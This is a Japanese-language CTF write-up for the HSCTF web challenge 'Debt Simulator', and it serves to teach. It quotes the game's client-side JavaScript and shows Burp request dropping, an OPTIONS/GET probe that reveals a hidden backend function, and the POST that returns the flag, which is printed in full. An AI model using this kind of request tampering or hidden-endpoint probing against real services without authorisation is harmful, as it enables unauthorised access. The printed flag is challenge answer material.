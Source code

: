 # Debt Simulator

100pt (579 Solves)

```txt
https://debt-simulator.web.hsctf.com/

Author: Madeleine
```

## 概要

![Debt Simulator](../img/Debt_Simulator.png)

運試し的な感じ。ボタンを押すと、お金が貰える/お金を払う。  
$-1000に到達すると負け、$2000に到達すると勝ち。  
以下のjsコードを読めばわかると思うが、まぁ普通にやってたら勝てない

```js
const onClick = () => {
    const isGetCost = Math.random() > 0.4 ? true : false;
    const func = isGetCost ? 'getCost' : 'getPay';
    const requestOptions = {
      method: 'POST',
      body: 'function=' + func,
      headers: { 'Content-type': 'application/x-www-form-urlencoded' }
    }

    fetch("https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001", requestOptions)
    .then(res => res.json())
    .then(data => {
      data = data.response;
      if (buttonText === "Play Again" || buttonText === "Start Game") {
        setButtonText("Next Round");
        setRunningTotal(0);
      }
      setMessage("You have " + (isGetCost ? "paid me " : "received ") + "$" + data + ".");
      setRunningTotal(runningTotal => isGetCost ? runningTotal - data : runningTotal + data);
    });
}
```

Burpで通信を見てみる。

```http
> POST /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
> function=getPay

---------------------------------------------------

< HTTP/1.1 200 OK
    :
< {"response":2}
```

お金が貰えるのは`getPay`、減るのは`getCost`になる。  
どちらのリクエストでもレスポンスは同じ形式で、数字だけ変わる。  
とりあえず勝利目指そうとしてBurpで`getCost`の通信を`getPay`に書き換えてみたが、  
上記のjsコードの通り計算自体は手元でされているので、書き換えたところでマイナスされる。

「`getCost`のリクエスト自体をなかったことにしてしまえばいいんじゃね？」と思い、  
BurpでDropしたら上手く消せた。`getPay`をSend、`getCost`をDropを繰り返してると  
`You won. You have more than $2000. Try your luck again?`と言われる。flagはない。

## 解

OPTIONでリクエストを送ってみると、GETができるらしい。

```http
> OPTIONS /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< Allow: GET,POST,HEAD
```

GETリクエストを送る。

```http
> GET /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< {
<   "functions":[
<       "getPay",
<       "getCost",
<       "getgetgetgetgetgetgetgetgetFlag"
<   ]
< }
```

今まで使ってた`getPay`と`getCost`の他に、  
`getgetgetgetgetgetgetgetgetFlag`なるものがあるらしい。
POSTしてみる。

```http
> POST /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
> function=getgetgetgetgetgetgetgetgetFlag
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< {"response":"flag{y0u_f0uND_m3333333_123123123555554322221}"}
```

flagが手に入った。

```txt
flag{y0u_f0uND_m3333333_123123123555554322221}
```
